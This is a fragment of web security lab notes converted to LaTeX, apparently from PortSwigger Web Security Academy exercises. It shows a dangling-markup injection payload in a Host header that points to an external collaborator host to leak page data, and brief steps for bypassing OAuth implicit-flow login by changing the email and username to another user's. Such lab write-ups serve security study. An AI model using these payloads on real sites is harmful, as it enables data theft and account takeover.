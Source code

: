 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\subsubsection{6. Dangling markup}\label{6-dangling-markup}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
\end{Verbatim}

\begin{quote}
\url{https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection}
"
\end{quote}

\section{OAuth authentication}\label{oauth-authentication}

\subsection{Approach}\label{approach-18}

Arises at Sign-in page. The main request to play with is
\passthrough{\lstinline!/auth?client\_id=...!}\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-17}

\subsubsection{1. Authentication bypass via OAuth implicit
flow}\label{1-authentication-bypass-via-oauth-implicit-flow}

\begin{quote}
Intercept the whole process of OAuth authentication and observe
/authenticate POST request that contains email and username. Change
these parameters to carlos\textquotesingle.
\end{quote}
\end{document}
